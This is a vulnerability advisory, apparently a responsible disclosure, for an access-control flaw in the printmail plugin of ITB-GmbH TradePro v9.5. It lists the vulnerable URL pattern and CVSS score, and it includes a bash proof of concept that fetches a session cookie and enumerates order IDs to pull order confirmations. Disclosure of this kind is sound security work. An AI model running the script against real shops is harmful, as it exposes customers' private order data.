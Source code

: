 == Affected Software
[%hardbreaks]
**Vendor:** ITB-GmbH
**Affected Products:** TradePro (v9.5)
**Component:** Printmail Plugin
**Confirmed:** yes

== Attack Vector
[%hardbreaks]
**Type:** Incorrect Access Control
**Access-Type:** Remote
**Impact:** Information Disclosure

Incorrect Access Control in the `printmail` plugin in ITB-GmbH
TradePro v9.5 allows remote attackers to receive all order confirmations from the online shop by passing arbitrary order numbers to an http(s) endpoint.

== Description
The `orderid` should be known beforehand but can be enumerated easily or by using an SQLi (see Report link:/security/CVE-2023-36645[CVE-2023-36645])

Calling `http(s)://[DOMAIN]/shop/de/?plugin=printmail&wkid=[COOKIE]&orderid=[ORDER_ID]` with a valid but unauthenticated session cookie gives the attacker access to all order confirmations.

== CVSS
[%hardbreaks]
**Score:** 7.1
**Vector:** https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N/E:P[CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N/E:P]

== PoC
[source, bash]
----
#! /bin/bash
DOMAIN=$1
TEST_PATH="shop/de/sys/"
#TEST_PATH="shop/de/"
SAMPLE1_ID=0


COOKIE=$(curl -s -c - $DOMAIN | grep sessiontradepro | cut -f7)
echo "Got Cookie: $COOKIE"
SAMPLE1=$(curl -s -w '\nsize_download %{size_download}' "$DOMAIN/$TEST_PATH?plugin=printmail&wkid=$COOKIE&orderid=$SAMPLE1_ID" | grep size_download | cut -d" " -f2)
echo Test URL: "$DOMAIN/$TEST_PATH?plugin=printmail&wkid=$COOKIE&orderid=%ID%"
echo "========"
echo $SAMPLE1_ID $SAMPLE1
for SAMPLE2_ID in {24000..25000}
 do
   SAMPLE2=$(curl -s -w '\nsize_download %{size_download}' "$DOMAIN/$TEST_PATH?plugin=printmail&wkid=$COOKIE&orderid=$SAMPLE2_ID" | grep size_download | cut -d" " -f2)
   echo $SAMPLE2_ID $SAMPLE2
done
----

== Credits
- Lynn
- Jadyn
- https://zerforschung.org[zerforschung.org]

